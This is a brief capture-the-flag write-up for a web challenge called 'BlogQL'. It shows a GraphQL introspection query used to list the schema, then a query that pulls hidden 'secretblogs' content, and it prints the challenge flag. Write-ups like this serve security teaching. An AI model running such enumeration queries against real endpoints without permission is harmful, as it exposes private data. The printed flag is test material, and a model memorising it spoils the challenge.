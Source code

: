 # BlogQL<br />
after research and read chall content we will figure out it use graphql as database :)
## Target<br />
[\*] Get Flag :) <br />
## Solution<br />
First of all we know its uses graphql to make sure of that go to /graphql?query={PAYLOAD}<br />
we will search for payload to get all tables name so we can find where is the flag
`query {
  __schema {
    queryType {
      fields {
        name
        type {
          kind
          ofType {
            kind
            name
          }
        }
      }
    }
  }
}`<br />
after excute the payload above we will find this<br />
![](images/1.png)<br />
**Yeyyy.. We are too close :)**<br />
now all we have to do fetch all data from it :D<br>
`{
    secretblogs{
        content
    }
}`<br />
![](images/2.png)<br />
**flag : flag{ea6a3da74909e79a8aa38005c6810893_d1d_In7r0speC7i0n_wORk_F0r_gRaPhqL}**<br />